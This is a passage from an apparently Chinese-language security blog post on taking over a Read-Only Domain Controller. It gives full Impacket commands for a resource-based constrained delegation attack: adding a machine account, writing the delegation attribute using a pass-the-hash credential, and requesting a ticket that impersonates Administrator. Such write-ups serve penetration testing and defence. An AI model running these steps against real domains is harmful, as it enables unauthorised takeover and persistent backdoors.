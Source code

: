 如果攻击者可以控制域中 RODC Admins 用户或组对象，则允许向组内添加当前可控的用户，或直接登陆并完全控制 RODC 主机。这里，我们介绍另外两种利用方法，在不直接登陆 RODC Admins 用户的情况下接管 RODC 并实现持久性后门。

被委派了 RODC 管理权限的用户或组默认对 RODC 的计算机对象拥有 WriteAccountRestrictions DACL，其中包含足够的权限来修改 RODC 对象的 msDS-AllowedToActOnBehalfOfOtherIdentity 属性，以进行基于资源的约束委派（RBCD）攻击。我们用 Impacket 项目来进行演示。

（1）首先用 addcomputer.py 创建一个新的计算机账户，如下所示。

```bash
python3 addcomputer.py corp.local/RodcAdmin -hashes :9b6208bad3e240e2b56b46832563b6b2 -computer-name NEWCOMPUTER\$ -computer-pass Passw0rd -dc-ip dc01.corp.local
```

![image-20231126172738755](/assets/posts/2023-11-27-revisiting-a-abuse-of-read-only-domain-controllers/image-20231126172738755.png)

（2）将 NEWCOMPUTER 的 SID 添加到 RODC 的 msDS-AllowedToActOnBehalfOfOtherIdentity 属性中，以设置 Kerberos RBCD，如下所示。

```bash
python3 rbcd.py corp.local/RodcAdmin -hashes :9b6208bad3e240e2b56b46832563b6b2 -delegate-from NEWCOMPUTER\$ -delegate-to RODC\$ -dc-ip dc01.corp.local -action write
```

![image-20231126173231903](/assets/posts/2023-11-27-revisiting-a-abuse-of-read-only-domain-controllers/image-20231126173231903.png)

（3）通过 NEWCOMPUTER 账户代表域管理员用户申请针对 RODC 上 CIFS 服务的 Kerberos 票据，如下所示。

```bash
python3 getST.py corp.local/NEWCOMPUTER\$:Passw0rd -spn cifs/rodc.corp.local -impersonate Administrator -dc-ip dc01.corp.local
```

![image-20231126173607359](/assets/posts/2023-11-27-revisiting-a-abuse-of-read-only-domain-controllers/image-20231126173607359.png)
